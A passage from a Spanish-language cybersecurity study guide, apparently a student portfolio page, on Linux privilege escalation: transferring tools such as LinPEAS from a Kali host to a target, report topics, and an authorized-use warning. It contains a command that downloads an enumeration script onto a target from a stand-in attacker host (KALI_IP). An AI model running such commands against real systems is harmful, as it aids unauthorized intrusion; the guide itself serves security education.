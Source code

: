 
## Transferir a Sistemas Objetivo

Una vez instaladas en Kali, puedes transferirlas fácilmente:

```bash
# Servidor HTTP simple
cd /opt/privesc-tools
python3 -m http.server 8000

# En el sistema objetivo:
wget http://KALI_IP:8000/linpeas.sh
```

---

## Para tu Reporte Académico

### Documenta estos aspectos:
- Configuración de sudo (ya verificada como segura)
- Permisos de archivos críticos del sistema
- Servicios expuestos y su configuración
- Políticas de contraseñas y autenticación
- Logs de seguridad y monitoreo

### Vectores más críticos en entornos reales:
1. Configuraciones erróneas de sudo
2. Servicios mal configurados
3. Kernel exploits
4. Credenciales hardcodeadas
5. Capabilities mal asignadas

---

## Consideraciones de Seguridad

⚠️ **Para uso académico/autorizado únicamente:**
- Estas herramientas pueden ser detectadas por antivirus
- Siempre obtén autorización antes de usarlas
- Algunos scripts pueden hacer ruido en logs del sistema
- Usa en entornos de laboratorio controlados

---

## Herramientas Recomendadas

1. **LinPEAS** - Script de enumeración automática
2. **LinEnum** - Enumeración básica del sistema
3. **Linux Smart Enumeration (LSE)** - Análisis inteligente
4. **PEASS-ng** - Suite completa de escalada

---
© 2025 [sualba.dev] Todos los derechos reservados
Este material forma parte de mi portfolio profesional y ha sido desarrollado como parte de mi formación en ciberseguridad.
*Documento creado para fines académicos y educativos. Úsalo de manera responsable y ética.*